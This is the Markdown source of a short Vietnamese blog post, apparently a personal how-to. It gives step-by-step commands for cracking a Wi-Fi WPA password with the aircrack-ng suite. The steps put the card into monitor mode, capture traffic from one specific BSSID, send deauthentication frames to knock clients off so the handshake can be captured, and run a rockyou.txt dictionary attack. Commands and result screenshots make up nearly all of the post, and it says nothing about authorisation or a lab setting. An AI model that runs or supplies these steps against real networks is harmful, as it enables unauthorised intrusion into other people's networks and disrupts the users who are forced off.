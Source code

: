 ```yaml
---
layout: post
title: Aloha Wifi
subtitle: 
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/lala.png
share-img: /assets/img/path.jpg
tags: [latex]

---
```



<style TYPE="text/css">
code.has-jax {font: inherit; font-size: 100%; background: inherit; border: inherit;}
</style>
<script type="text/x-mathjax-config">
MathJax.Hub.Config({
    tex2jax: {
        inlineMath: [['$','$'], ['\\(','\\)']],
        skipTags: ['script', 'noscript', 'style', 'textarea', 'pre'] // removed 'code' entry
    }
});
MathJax.Hub.Queue(function() {
    var all = MathJax.Hub.getAllJax(), i;
    for(i = 0; i < all.length; i += 1) {
        all[i].SourceElement().parentNode.className += ' has-jax';
    }
});
</script>
<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/mathjax/2.7.4/MathJax.js?config=TeX-AMS_HTML-full"></script>

----------------
Bước 1:

~~~
ifconfig
~~~

Bước 2:

~~~
sudo su
~~~

Bước 3:

~~~
airmon-ng start wlan0
~~~

Bước 4:

~~~
airodump-ng wlan0mon
~~~

Bước 5:

~~~
airodump-ng --bssid 9C:65:EE:E7:77:17 -c 1 -w /usr/share/wordlists/rockyou.txt wlan0mon

~~~

Chú ý: Số 1: CH

Bước 6: Copy Card mạng cần điều tra

Bước 7: Tạo terminal mới -> sudo su và nhập lệnh 

~~~
aireplay-ng -0 4 -a 9C:65:EE:E7:77:17 wlan0mon
~~~

Bước 8: 

~~~
aircrack-ng /usr/share/wordlists/rockyou.txt-02.cap -w /usr/share/wordlists/rockyou.txt
~~~

Chú ý: 
![Imgur](https://i.imgur.com/kMg6Kjj.png)

Kêt quả: 

![Imgur](https://i.imgur.com/ox0Dm2X.png)

Tham khảo: [Link](https://www.youtube.com/watch?v=5Ri51BxSMYA)

(ALFA Network)